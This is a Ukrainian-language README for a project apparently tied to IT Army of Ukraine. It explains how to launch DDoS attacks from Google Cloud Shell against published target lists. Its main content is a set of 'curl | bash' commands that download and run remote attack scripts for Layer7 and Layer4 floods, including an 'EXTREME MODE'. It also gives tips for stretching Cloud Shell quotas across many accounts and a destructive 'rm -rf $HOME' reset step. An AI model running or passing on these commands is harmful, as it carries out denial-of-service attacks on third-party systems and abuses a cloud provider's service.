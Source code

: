 # [DDoS whith Google Cloud Shell](https://sites.google.com/view/operationrussia/googleshell)
#### Scripts for durable cloudshell session. Test!     
#    
**[English version](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/blob/main/README-EN.md)**
#
### Використовуємо https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
### з ПК та смартфонів (*зі всього, що має браузер*;)
#
#### Браузерний спосіб (*підходить для використання від 1 до 20-30 акаунтів з одного ПК, якщо більше [Вам сюди](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/tree/main/GShellSDK#readme)*)
:exclamation:• **Рекомендується використовувати 1 термінал на акаунт**.    
:exclamation:• **Максимальна тривалість сеансу Cloud Shell - 12 годин. Новий сеанс можна почати одразу після розриву.**    
:exclamation:• Враховуйте, що встановлені **тижневі квоти на використання, 1 акаунт - 50 годин у звичайному режимі та від 10 до 50 годин у ефемерному режимі** (*до закінчення квоти у звичайному режимі - вмикаємо Ephemeral Mode (ставимо - "Завжди") та отримуємо ще до 50 годин використання на поточний тиждень. Або навпаки, краще починати з ефемерного режиму*)    
:exclamation:• У [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) в налаштуваннях можна вимкнути статистику використання.    
• **Для скидання Cloud Shell** - Видаліть усі файли з домашнього каталогу, команда: `sudo rm -rf $HOME`, далі - у меню Cloud Shell клацніть значок меню з трьома крапками, а потім натисніть "Restart" *(Буде надано нову віртуальну машину, а домашній каталог буде відновлено до стану за замовчуванням)*
#
### Стабільні сеанси (*90%*)
:white_check_mark:**Команда для встановлення та запуску MHDDoS_proxy (по [Layer7](https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst)):**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:white_check_mark: **Команда для встановлення та запуску db1000n:** 
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
#
### Тести/допрацювання/експерименти. 
**Нестабільні сеанси, перериваються** (потрібно часто перевіряти)      
  
:grey_question:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash    
```
:grey_question:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**Розділений термінал (Layer7+Layer4):**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### EXTREME MODE:zap:NoLimits (команди mhddos_proxy без параметрів)
 :exclamation: **Атаки виходять потужні але короткі + висока ймовірність отримати бан** (*бан зазвичай тимчасовий і стосується тільки доступу до GShell*)    
  
:zap:***--itarmy*:**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/itarmyX.sh | bash
```
:zap:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/tcpX.sh | bash
```
:zap:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/ALLx.sh | bash
```
#
#
#### Списки з цілями
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)

